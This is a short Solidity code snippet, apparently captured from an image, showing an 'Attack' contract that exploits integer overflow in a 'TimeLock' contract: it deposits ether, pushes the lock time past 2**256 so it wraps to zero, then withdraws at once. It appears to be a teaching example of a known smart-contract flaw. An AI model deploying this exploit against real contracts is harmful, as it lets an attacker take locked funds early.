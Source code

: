 ```solidity
}

contract Attack {
    TimeLock timeLock;
    
    constructor(TimeLock _timeLock) public {
        timeLock = TimeLock(_timeLock);
    }
    
    fallback() external payable {
        
    }
    
    function attack() public payable {
        timeLock.deposit{value: msg.value}();
        //t == current lock timeLock//find x such that 
        //x + t = 2**256 = 0
        timeLock.increaseLockTime(
            //a huge number
            uint(-timeLock.lockTime(address(this)))
            );
            timeLock.withdraw();
    }
}
```
